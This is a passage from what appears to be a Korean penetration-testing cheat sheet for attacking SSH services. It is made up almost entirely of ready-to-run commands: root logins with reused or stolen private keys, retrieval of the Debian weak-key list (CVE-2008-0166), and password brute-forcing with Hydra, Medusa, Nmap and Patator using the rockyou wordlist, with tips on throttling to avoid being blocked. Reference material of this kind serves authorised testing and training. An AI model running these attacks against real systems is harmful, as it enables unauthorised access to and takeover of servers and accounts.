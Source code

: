 ```bash
ssh root@{IP} -o PasswordAuthentication=no -o PubkeyAuthentication=no
```

### 🗝️ SSH 키 기반 공격

```bash
# 다른 서비스에서 발견한 SSH 키 사용
chmod 600 id_rsa
ssh -i id_rsa root@{IP}
ssh -i id_rsa user@{IP}
ssh -i id_rsa admin@{IP}

# 일반적인 SSH 키 위치에서 키 시도 (다른 서비스에서 다운로드한 경우)
ssh -i /home/user/.ssh/id_rsa user@{IP}
ssh -i /root/.ssh/id_rsa root@{IP}

# 키 파일 권한 설정
chmod 600 ~/.ssh/id_rsa
chmod 600 ~/.ssh/id_dsa
chmod 600 ~/.ssh/id_ecdsa
chmod 600 ~/.ssh/id_ed25519

# 패스프레이즈 없는 키 파일 생성 (테스트용)
ssh-keygen -t rsa -f test_key -N ""
ssh -i test_key user@{IP}

# 알려진 약한 키 시도
wget https://github.com/offensive-security/exploitdb/raw/master/docs/english/44064-debian-openssl-predictable-prng-cve-2008-0166.txt
# 약한 키들을 이용한 접속 시도
```

### 💥 브루트포스 공격

```bash
# Hydra를 이용한 브루트포스
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://{IP}
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://{IP}
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://{IP}

# 사용자 리스트와 패스워드 리스트 조합
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt ssh://{IP}

# 속도 조절 (너무 빠르면 차단될 수 있음)
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://{IP} -t 4 -W 3

# Medusa 사용
medusa -h {IP} -u root -P /usr/share/wordlists/rockyou.txt -M ssh
medusa -h {IP} -U users.txt -P passwords.txt -M ssh

# Nmap 브루트포스
nmap --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt -p 22 {IP}

# Patator 사용 (더 정교한 제어)
patator ssh_login host={IP} user=root password=FILE0 0=/usr/share/wordlists/rockyou.txt -x ignore:mesg='Authentication failed'
```

